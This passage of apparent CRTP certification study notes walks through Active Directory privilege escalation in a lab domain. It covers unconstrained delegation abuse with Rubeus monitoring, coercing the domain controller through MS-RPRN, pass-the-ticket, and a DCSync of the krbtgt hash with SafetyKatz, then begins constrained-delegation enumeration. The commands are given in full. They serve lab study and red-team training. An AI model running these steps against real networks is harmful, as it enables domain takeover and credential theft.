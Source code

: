 ![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/56bf212c-932b-42d1-aab8-26b89f15ee13)

#OR if the above didn't work
check if the user has unconstrained delegation is by checking the useraccountcontrol after running `"Get-Domaincomputer -Unconstrained"`

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/cc85c9b1-24ea-422c-a882-1ac7b5b44ce0)

you need to force the DC to connect to the appsrv. to do that we need to compromise the appsrv first

1. check if we have admin access on appsrv
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/cb59fee8-0856-423f-8d7b-910a7b02f638)

2. copy Rubeus.exe to appsrv machine
```
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Rubeus.exe
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/52f771a5-12b3-4865-9184-f20b5db8f7ff)
3. run Rubeus.exe in monitor mode to get the TGT ticket
```
Rubeus.exe monitor /interval:5 /targetuser:dcorp-dc$ /nowrap
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/6ce74a3e-e6e2-460b-b546-a5efa9f17bdb)

4. force the DC to connect to appsrv
```
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
if you get `"Error Code 1722 -  The RPC server is unavailable"` it is fine
5. you will get the base64TGT of the DC
6. perform pass the ticket attack 
```
Rubeus.exe ptt /ticket:<base64TGT of the DC>
```
7. run DCSync attack to get the NTLM hash of the DC
```
SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

# Priv Esc - constrained Delegation
### Enumerate users and computers with constrained delegation enabled
```
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/445f780d-0f73-4af9-a137-8688575b91a1)

check useraccountcontrol if you have `"TRUSTED_TO_AUTH_FOR_DELEGATION"` means constrained delegation is enabled on this user
